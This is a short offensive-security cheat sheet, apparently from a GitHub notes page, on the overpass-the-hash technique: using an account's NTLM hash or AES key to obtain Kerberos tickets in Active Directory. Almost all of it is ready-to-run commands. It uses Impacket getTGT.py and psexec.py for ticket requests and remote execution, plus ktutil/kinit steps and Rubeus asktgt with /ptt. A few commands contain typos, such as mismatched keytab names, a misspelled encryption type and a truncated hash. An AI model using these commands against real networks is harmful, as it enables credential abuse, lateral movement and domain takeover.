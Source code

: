 	在这种技术中，我们不是直接传递哈希值，而是使用帐户的 NTLM 哈希值来请求有效的 Kerberost 票证 (TGT)
  ### impacket
  	>python ./getTGT.py -hashes ":1a59bd44fe5bec39c44c8cd3524dee" lab.ropnop.com
	>export KRB5CCNAME="/root/impacket-examples/velociraptor.ccache"
	>python3 psexec.py "jurassic.park/velociraptor@labwws02.jurassic.park" -k -no-pass
	>./getTGT.py -aesKey xxxxxxxxxxxxxxkeyaesxxxxxxxxxxxxxxxx lab.ropnop.com
	>ktutil -k ~/mykeys add -p tgwynn@LAB.ROPNOP.COM -e arcfour-hma-md5 -w 1a59bd44fe5bec39c44c8cd3524dee --hex -V 5
	>kinit -t ~/mykers tgwynn@LAB.ROPNOP.COM
	>klist
  ### Rubeus
  	>.\Rubeus.exe asktgt /user:Administrator /rc4:[NTLMHASH] /ptt
	>.\Rubeus.exe asktgt /user:Administrator /aes256:[AES256HASH] /opsec /ptt
	>.\Rubeus.exe asktgt /user:Administrator /rc4:[NTLMHASH] /createnetonly:C:\Windows\System32\cmd.exe
